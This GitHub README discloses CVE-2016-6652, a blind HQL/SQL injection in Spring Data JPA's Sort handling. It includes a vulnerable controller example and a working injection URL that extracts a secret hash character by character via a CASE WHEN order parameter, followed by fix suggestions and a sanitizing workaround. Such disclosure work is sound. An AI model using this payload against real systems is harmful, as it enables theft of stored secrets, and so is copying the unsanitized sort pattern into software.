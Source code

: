 PoC for blind SQL injection bug found in [Solita Webhack 2016](http://www.webhack.fi/).

* Founders: Niklas Särökaari, Joona Immonen
* Analysis: Arto Santala, Niklas Särökaari, Joona Immonen, Antti Virtanen, Michael Holopainen
* PoC: Antti Ahola, Antti Virtanen

CVE: (https://pivotal.io/security/cve-2016-6652)

This has been fixed in Spring Data with this commit: (https://github.com/spring-projects/spring-data-jpa/commit/b8e7fe)

## The problem briefly

[Spring Data](http://projects.spring.io/spring-data/) relies on helper class QueryUtils, which does the following:

```
QueryUtils.applySorting("select person from Person person", new Sort("firstName"))
```

Effectively this doesn't validate or escape the string given to *Sort* constructor properly. This method is not normally
accessed directly by application developers as creating raw queries with plain strings is not a good practice, but
relatively innocent code can inadvertently contain SQL injection because of this. The PoC demonsrates how this
might realistically happen (and did happen in our real-life application).

Many tutorials for [Spring Data JPA](http://projects.spring.io/spring-data-jpa/) explain that it's possible to create sortable queries easily, without actually worrying about SQL in this manner:

```
interface PersonRepository extends PagingAndSortingRepository<Person, Long> {
  
  @Query("SELECT person FROM Person person WHERE " +
      "LOWER(person.firstName) LIKE LOWER(CONCAT('%',:searchTerm, '%')) OR " +
      "LOWER(person.lastName) LIKE LOWER(CONCAT('%',:searchTerm, '%'))")
  List<Person> findBySearchTerm(@Param("searchTerm") String searchTerm, Sort sort);
}
```

The query doesn't contain *ORDER BY* but Spring will handle it, using the aforementioned *applySorting* method. Creating a sortable REST interface is easy:

```
    @RequestMapping("/personfind")
    public Iterable<PersonDTO> personFind(@RequestParam(value="order", defaultValue="firstName") String order,
                                          @RequestParam(value="term" ) String term) {
      Iterable<Person> persons = personRepo.findBySearchTerm(term, new Sort(order));
      // mapping to PersonDTO omitted.
```

Search parameter *term* gets properly sanitized, but parameter *sort* will not be sanitized in this case. 

## How to exploit?

Exploiting is not as straightforward as it would seem, because it depends on multiple factors. The query is not a raw SQL query and tricks like ```"union all select * from .."``` may not work. It might be a JPQL-query or HQL query, but still exploitable. See [HQL for pentesting](http://paulsec.github.io/blog/2014/05/05/blind-hql-injection-in-rest-api-using-h2-dbms/) for further ideas.

### A short example:

The search term selects only two records from the database. Ordering by *firstName* yields Huppu,Tuppu. Boolean blind HQL injection is possible by checking if the order changes. The content of a secret hash can be deduced by playing with the *order* parameter. 

![before](sqlmapping_1.png)

![after](sqlmapping_2.png)

What exactly happens depends on the underlying database. With PostgreSQL 9.2, brute forcing character by character works like this. 

Example injection:
```
http://localhost:8080/personfind?term=uppu&order=(case%20when%20%20substr(secretHash,1,1)=%27E%27%20then%201%20else%202%20end)
```

PostgreSQL query after Spring HQL translation:
```
select person0_.id as id1_1_, person0_.first_name as first_na2_1_, person0_.last_name as last_nam3_1_, person0_.secret_hash as secret_h4_1_ from person person0_ where lower(person0_.first_name) like lower(('%'||$1||'%')) or lower(person0_.last_name) like lower(('%'||$2||'%')) order by case when substr(person0_.secret_hash, 1, 1)='E' then 1 else 2 end asc
```

## Suggestions 

* Spring Data should sanitize the strings encapsulated in the *Order* class. This might mean that some valid, but weird, definitions would no longer work, but for the majority of programmers this should be the default behavior. And it's possible to introduce a static factory method to create "unsafe Order" for the marginal cases. This might break some of the current applications.

* If *Order* will not be changed, introduce a static factory method to create "safe Order" and warn programmers that the current best practice is vulnerable and prone to errors.

* Meanwhile, a workaround is to sanitize the order in the application level using something like this:

```
 /**
  * This utility will filter away any characters that are not used in column names,
  * granting immunity to sql injection attacks
  *
  * @param value
  * @return
  */
  private String cleanseString(String value) {
    return value.replaceAll("[^A-Za-z0-9_.]", "");
  }
```

This will break function calls in *order by* (as parenthesis get removed), which may not be suitable for all users.



